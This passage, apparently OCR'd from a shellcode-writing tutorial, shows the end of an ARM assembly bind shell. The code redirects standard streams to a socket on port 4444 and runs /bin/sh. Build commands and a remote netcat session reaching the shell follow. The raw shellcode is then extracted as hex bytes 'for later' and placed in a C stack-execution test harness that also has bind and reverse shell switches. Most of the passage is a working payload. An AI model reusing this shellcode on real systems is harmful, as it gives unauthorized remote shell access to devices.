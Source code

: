         @ dup2(sock, stdout)
        mov r0, r4
        mov r1, #1
        svc #1

        @ dup2(sock, stderr)
        mov r0, r4
        mov r1, #2
        svc #1

        @ syscall #11 execve("/bin/sh", 0, 0)
        adr r0, _string
        eor r1, r1, r1
        eor r2, r2, r2
        mov r7, #11
        svc #1

    _sa:
    .word 0x5c11ff02
    .word 0xffffffff

    _string:
    .ascii "/bin/shA"

A quick test

    $ as bindshell.s -o bindshell.o
    $ ld -N bindshell.o -o bindshell
    $ ./bindshell

On the remote

    remote:$ nc 192.168.10.221 4444
    remote:$ uname -a
    Linux wandq-2 4.19.12-jumpnow #1 SMP Sat Dec 22 09:14:15 UTC 2018 armv7l armv7l armv7l GNU/Linux
    exit

Extract the shellcode for later.

    $ objcopy -O binary bindshell.o bindshell.bin

    $ hexdump -v -e '"\\\x" 1/1 "%02x"' bindshell.bin ; echo
    \x01\x10\x8f\xe2\x11\xff\x2f\xe1\x13\xa0\x52\x40\x42\x70\x42\x60\xc2\x73\x02\x20\x01\x21\xc8\x27\x51\x37\x01\xdf\x04\x1c\x0e\xa1\x10\x22\x01\x37\x01\xdf\x20\x1c\x01\x21\x02\x37\x01\xdf\x20\x1c\x49\x40\x52\x40\x01\x37\x01\xdf\x04\x1c\x20\x1c\x49\x40\x3f\x27\x01\xdf\x20\x1c\x01\x21\x01\xdf\x20\x1c\x02\x21\x01\xdf\x04\xa0\x49\x40\x52\x40\x0b\x27\x01\xdf\x02\xff\x11\x5c\xff\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41


And finally a short test program to verify the shellcode can run from the stack

    #include <stdio.h>
    #include <string.h>

    // #define SIMPLE_SHELL
    // #define REVERSE_SHELL
    #define BIND_SHELL
